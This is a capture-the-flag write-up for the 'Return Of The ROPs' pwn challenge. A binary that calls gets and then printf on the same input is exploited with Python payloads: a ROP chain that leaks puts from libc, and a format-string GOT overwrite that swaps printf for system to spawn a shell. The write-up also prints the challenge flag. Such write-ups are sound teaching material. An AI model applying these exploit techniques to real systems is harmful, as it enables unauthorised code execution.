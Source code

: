 # Return Of The ROPs
#### Description
Is ROP dead? God no. But it returns from a long awaited time, this time in a weird fashion. Three instructions ... can you pwn it?
#### Author
Tango
#### Points and solves
480 points, 55 solves.


This binary is a simpler version of pwn_inn.

```c
undefined8 main(void)
{
  char local_28 [32];
  
  ignore_me_init_buffering();
  puts("What would you like to say?");
  gets(local_28);
  printf(local_28);
  return 0;
}
```

Buffer overflow and string format attack, there's nothing more we could ask for.

### Leaking libc:
```python
payload = 40*b"A" +  p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```
Simple ROP chain to leak ```puts``` address.
We don't have a libc version, so we use the website [libc database search](https://libc.nullbyte.cat/) to narrow down libc version based on known addresses.

## Getting shell:
We overwrite printf with system, in the same manner we did in pwn_inn, just instead using 3 batches, I used 2 batches and discarded the ```BBBB``` part because it's just uneccessary. (Because for both it's 0x007f.)

```python
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%13$hn" +\
		  b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%14$hn"
payload += (0x28-len(payload))*b"A" + p64(ret) + p64(elf.sym.main)
for i in range(0,2):
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```


Send this payload, write ```/bin/sh``` in interactive and get shell :)

#### Flag
```flag{w3_d0n't_n33d_n0_rdx_g4dg3t,ret2csu_15_d3_w4y_7821243}```
